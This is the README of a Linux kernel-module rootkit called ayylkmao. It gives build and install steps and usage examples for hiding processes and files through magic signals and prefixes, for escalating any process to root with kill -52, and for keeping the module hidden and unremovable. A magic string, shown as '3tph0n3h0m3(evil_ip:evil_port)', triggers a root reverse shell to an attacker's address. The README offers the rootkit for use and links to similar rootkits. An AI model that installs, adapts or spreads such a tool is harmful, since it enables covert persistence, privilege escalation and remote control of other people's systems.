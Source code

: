 # ayylkmao.ko
An LKM rootkit for aliens by aliens.

## Installation
Make sure you have the kernel headers installed for your target system. After that you can just run:

```
git clone https://github.com/ableiten/ayylkmao && cd ayylkmao
make
```

That's all. You can install the `ayylkmao.ko` module normally.

## Basic Usage
The magic kill signals are all defined as macros in [ayylkmao.c](https://github.com/ableiten/ayylkmao/blob/master/ayylkmao.c#L11). It is recommended that you modify these.

#### Hiding Processes
You can hide processes using the signals `SIGNAL_HIDE_PROCESS` and `SIGNAL_SHOW_PROCESS`.

```
> pidof python
18237
> kill -50 18237
> pidof python
> kill -51 18237
> pidof python
18237
```
#### Hiding Files/Directories
You can hide files and directories by naming them using the `MAGIC_PREFIX` prefix.

```
> touch sp00kyfile file
> ls
file
```

#### Phoning Home
To phone home you will need a reverse shell that accepts arguments [like this one](https://github.com/ableiten/simple-reverse-shell). The tool should be saved on the infected system as `MAGIC_PREFIX-util/rev` where the rootkit knows to look for it.

After that you can simply send specially formatted data over any connection and a root reverse shell will phone home to the specified address and port.

Using the default backdoor magic, that would look something like this:
```
3tph0n3h0m3(evil_ip:evil_port)
```

#### Privilege Escalation
You can give any process root by sending it the `SIGNAL_GIVE_ROOT` signal.

```
> whoami                                 
user
> echo $$                                
6678
> kill -52 6678                          
> whoami                                 
root
```

#### Removal
Since the kernel module is hidden and unremovable by default, you will need to unhide it so that it can be removed. To do this simply signal any process with `SIGNAL_UNHIDE_MODULE` and then you should be able to remove the module normally.

```
> kill -53 0
> rmmod ayylkmao.ko
```

## Useful Material
- [Every](https://github.com/jiayy/lkm-rootkit) [single](https://github.com/croemheld/lkm-rootkit) [other](https://github.com/m0nad/Diamorphine) [LKM](https://github.com/triedal/rootkit) [rootkit](https://github.com/nurupo/rootkit/) (Each word is a seperate link)
- http://phrack.org/issues/58/7.html
- http://www.ouah.org/LKM_HACKING.html (mirror, original unavailable as of writing)
- http://r00tkit.me/
